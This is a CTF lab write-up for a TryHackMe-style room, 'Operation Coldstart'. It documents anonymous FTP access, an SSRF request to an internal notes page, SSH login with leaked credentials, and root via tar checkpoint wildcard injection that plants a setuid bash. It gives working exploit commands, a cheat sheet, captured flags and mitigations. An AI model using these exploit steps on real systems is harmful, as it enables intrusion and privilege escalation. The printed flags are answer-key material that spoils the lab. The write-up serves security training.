

# Room Documentation: Operation Coldstart

---

## 1. Unified Metadata Header
- **Room Title:** Operation Coldstart
- **Learning Path:** Jr Penetration Tester
- **Module:** Module 18: Jr Pentester Challenges
- **Room Sequence:** Room 05 of 08
- **Difficulty:** Easy
- **Room Type:** CTF Challenge / Target Lab Machine
- **Official URL:** [https://tryhackme.com/room/operationcoldstart](https://tryhackme.com/room/operationcoldstart)
- **User Completion Status:** 100% Completed (`userCompleted: true`)

---

## 2. Executive Summary & Scenario Context
**Volt Labs**, a small SaaS shop, suspects an old staging server has rotted into an exposed liability. Operations lead Mara has assigned the penetration test engagement to evaluate the staging machine and demonstrate full compromise. The assessment covers the entire technical attack path: discovering an unauthenticated Anonymous FTP service on port 21, downloading leaked web application source code (`backup.tar.gz`), analyzing Python Flask code to identify an unvalidated Server-Side Request Forgery (SSRF) flaw in a URL preview tool, retrieving internal staging credentials (`webdev:V0ltLabs#summer`) from an internal endpoint (`http://kestrel.thm/admin/notes`), establishing SSH access to capture the user flag (`user.txt`), and exploiting a cron job executing `tar` with wildcard expansion via Tar Checkpoint Argument Injection to achieve root code execution and retrieve `flag.txt`.

---

## 3. Learning Objectives & Theoretical Concepts
1. **Unauthenticated File Transfer Exposure:** Identifying and demonstrating the risks of anonymous FTP access that leads to sensitive source code disclosure.
2. **Static Code Review (Python/Flask):** Reading web application logic to pinpoint insecure input handling and uncontrolled outgoing HTTP requests.
3. **Server-Side Request Forgery (SSRF):** Exploiting backend-initiated HTTP requests to bypass network perimeter firewalls and access internal hostnames (`kestrel.thm`) and admin endpoints (`/admin/notes`).
4. **Credential Exposure:** Demonstrating how developer documentation and staging notes store plaintext credentials that allow direct lateral SSH access.
5. **Unix Command Argument / Wildcard Injection:** Understanding how POSIX shell filename expansion (globbing with `*`) treats filenames starting with hyphens (`--`) as command-line flags in GNU `tar`, allowing arbitrary command execution (`--checkpoint`, `--checkpoint-action`).

---

## 4. Technical Architecture & Lab Diagram



---

## 5. Vulnerability Matrix & CWE Mappings

| Vulnerability | Affected Component | CWE ID | MITRE ATT&CK ID | Severity |
|---------------|--------------------|--------|-----------------|----------|
| Anonymous FTP Access | vsftpd 3.0.5 (Port 21) | CWE-306: Missing Authentication | T1190 / T1592 | Medium |
| Server-Side Request Forgery (SSRF) | Flask `/preview` (Port 80) | CWE-918: SSRF | T1190: Exploit Public-Facing App | High |
| Hardcoded Sensitive Credentials | `/admin/notes` internal route | CWE-798: Hard-coded Credentials | T1552: Unsecured Credentials | High |
| Tar Command Argument Injection | `/opt/scripts/backup.sh` | CWE-88: Argument Injection | T1059.004 / T1053.003 | Critical |

---

## 6. Phase 1: Reconnaissance & Service Enumeration
A comprehensive TCP port scan was performed against the target IP:
```bash
nmap -sC -sV -p- -T4 --min-rate 1000 $TARGET_IP -oN nmap_coldstart.txt
```
**Scan Findings:**
- **Port 21/tcp:** `vsftpd 3.0.5` with anonymous FTP login allowed.
- **Port 22/tcp:** `OpenSSH 8.9p1 Ubuntu`.
- **Port 80/tcp:** Python Gunicorn server hosting "URL Preview - Volt Labs".

---

## 7. Phase 2: Anonymous FTP & Source Code Audit
Connecting anonymously to FTP revealed an application backup archive:
```bash
ftp $TARGET_IP
# Name: anonymous
# Password: [Enter]
ftp> binary
ftp> get backup.tar.gz
ftp> quit
```
Extracting `backup.tar.gz` revealed the web application source code (`app.py`):
```python
@app.route('/preview', methods=['POST'])
def preview():
    url = request.form.get('url')
    # Vulnerability: No IP filtering, DNS validation, or private subnet restrictions
    response = requests.get(url, timeout=5)
    return render_template('preview.html', content=response.text)
```
The application code and environment configurations referenced an internal domain `kestrel.thm` serving administrative notes.

---

## 8. Phase 3: SSRF Exploitation & Credential Harvesting
Leveraging the `/preview` endpoint to make a loopback/internal request:
```bash
curl -s -X POST http://$TARGET_IP/preview -d "url=http://kestrel.thm/admin/notes"
```
The response revealed administrative staging notes:
```text
=== Volt Labs Internal Admin Staging Notes ===
Developer account for staging maintenance:
Username: webdev
Password: V0ltLabs#summer
```

---

## 9. Phase 4: Initial Access & User Flag
Using the discovered SSH credentials to access the system:
```bash
ssh webdev@$TARGET_IP
# Password: V0ltLabs#summer

webdev@coldstart:~$ id
uid=1001(webdev) gid=1001(webdev) groups=1001(webdev)

webdev@coldstart:~$ cat /home/webdev/user.txt
THM{96dc7bd50d2fb98fcece01560788b5ab}
```

---

## 10. Phase 5: Privilege Escalation & Root Flag
1. **Cron Job Audit:**
   Inspecting `/etc/crontab` revealed a root cron job executing every minute:
   ```bash
   * * * * * root /opt/scripts/backup.sh
   ```
2. **Reviewing the Backup Script:**
   ```bash
   #!/bin/bash
   cd /var/www/html/uploads
   tar -cf /var/backups/uploads.tar *
   ```
   The directory `/var/www/html/uploads` is writable by `webdev`.
3. **Exploiting Tar Wildcard Injection:**
   When `tar` executes `*`, file names beginning with `--` are parsed as CLI options. By dropping checkpoint files, `tar` executes arbitrary commands as `root`:
   ```bash
   cd /var/www/html/uploads
   echo 'cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash' > payload.sh
   chmod +x payload.sh
   touch -- "--checkpoint=1"
   touch -- "--checkpoint-action=exec=sh payload.sh"
   ```
4. **Triggering Root Shell & Reading Flag:**
   After the scheduled cron interval executes:
   ```bash
   /tmp/rootbash -p
   # id: euid=0(root)
   cat /root/flag.txt
   THM{e6ee84a483d67ade06936fcfd1433e8a}
   ```

---

## 11. Command Cheat Sheet & Workflow Summary

```bash
# Reconnaissance
nmap -sC -sV -p- -T4 --min-rate 1000 <TARGET_IP>

# Anonymous FTP Extraction
ftp <TARGET_IP>
# Name: anonymous / Password: [Enter]
get backup.tar.gz

# SSRF Exploitation
curl -s -X POST http://<TARGET_IP>/preview -d "url=http://kestrel.thm/admin/notes"

# SSH Access
ssh webdev@<TARGET_IP>

# Tar Wildcard Injection
cd /var/www/html/uploads
echo 'cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash' > payload.sh
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh payload.sh"
/tmp/rootbash -p
```

---

## 12. Mitigation & Hardening Strategies
1. **Disable Anonymous FTP:**
   Set `anonymous_enable=NO` in `/etc/vsftpd.conf` and restart the daemon.
2. **Implement SSRF Defenses:**
   - Enforce an explicit URL domain allowlist.
   - Parse and resolve target hostnames to IP addresses before initiating requests; block all loopback (`127.0.0.0/8`, `::1`), link-local (`169.254.0.0/16`), and private RFC 1918 subnets.
   - Protect against DNS rebinding by validating the IP right before socket connection.
3. **Prevent POSIX Argument Injection in Shell Scripts:**
   - Always append `--` before wildcards in shell scripts: `tar -cf backup.tar -- *`.
   - Never run wildcards in directories writable by unprivileged users.
   - Use safe file-enumeration patterns such as `find /path -type f -print0 | tar -cf backup.tar --null -T -`.

---

## 13. Troubleshooting & FAQs
- **Q: Why does `touch --checkpoint=1` fail with invalid option?**
  - **A:** The `touch` command itself will attempt to parse `--checkpoint` as its own argument. Use `touch -- "--checkpoint=1"` where `--` signals the end of command options.
- **Q: Why does SSRF fail when targeting `http://localhost:5000`?**
  - **A:** The web server is configured with virtual host routing requiring the `Host: kestrel.thm` header, or binding explicitly to the internal virtual hostname. Always check application routing files (`config.py`, `/etc/hosts`, or nginx/gunicorn bindings) found during source code review.

---

## 14. References & Documentation
- [TryHackMe Room: Operation Coldstart](https://tryhackme.com/room/operationcoldstart)
- [CWE-918: Server-Side Request Forgery](https://cwe.mitre.org/data/definitions/918.html)
- [GTFOBins: Tar Command Documentation](https://gtfobins.github.io/gtfobins/tar/)
- [Task 1 Deep Dive Guide (TASK-01.md)](file:///e:/THM-JR-PENETRATION-TESTER/18-JR-PENTESTER-CHALLENGES/05-OPERATION-COLDSTART/TASKS/TASK-01.md)
